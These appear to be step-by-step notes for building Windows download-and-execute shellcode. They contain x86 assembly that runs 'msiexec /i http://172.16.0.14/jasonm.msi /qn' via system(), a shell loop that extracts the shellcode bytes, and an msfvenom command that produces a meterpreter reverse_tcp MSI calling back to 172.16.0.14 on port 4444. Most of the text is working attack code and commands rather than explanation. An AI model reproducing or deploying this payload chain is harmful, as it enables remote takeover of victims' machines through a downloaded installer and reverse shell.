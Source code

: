

https://web.archive.org/web/20120503030935/http://projectshellcode.com/?q=node/12

1. I followed above first two tutorials (1. Intro tools & setup 2. My first shellcode.) to output shellcode, alternatively follow shellcode developer's write-
up....I'm sure it works!

Shellcode Developer: Kartik Durg

https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/

2. The following asm does this: #

3. msiexec /i http://172.16.0.14/jasonm.msi /qn

4. Need to Determine LoadLibrary, ExitProcess & System via Arwin

```
------------assembly starts---------------

BITS 32
global _start
_start:
			
mov ebx, 0x777fde35      		;Address of function LoadLibraryA (win7)
call ebx
mov ebp, eax             		;msvcrt.dll is saved in ebp
xor eax, eax
PUSH eax
PUSH 0x6e712f20
PUSH 0x69736d2e
PUSH 0x6d6e6f73
PUSH 0x616a2f34
PUSH 0x312e302e
PUSH 0x36312e32
PUSH 0x37312f2f
PUSH 0x3a707474
PUSH 0x6820692f
PUSH 0x20636578
PUSH 0x6569736d
MOV EDI,ESP
PUSH EDI
MOV EAX, 0x768db177			;calling the system()
CALL EAX
xor eax, eax
push eax
mov eax, 0x7780be5a     		; ExitProcess
call eax

--------------assembly end----------------------------------
```
5. Save as msi.asm
6. Using Cygwin

7.xvz@xvz-PC ~
$ nasm -f win32 msi.asm -o msi.o

8.Get rid of null bytes

9.xvz@xvz-PC ~
$ for i in $(objdump -D msi.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo

10.Add to script

11.Create MSI
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.0.14 -f msi -o jasonm.msi

Start web-server port 80
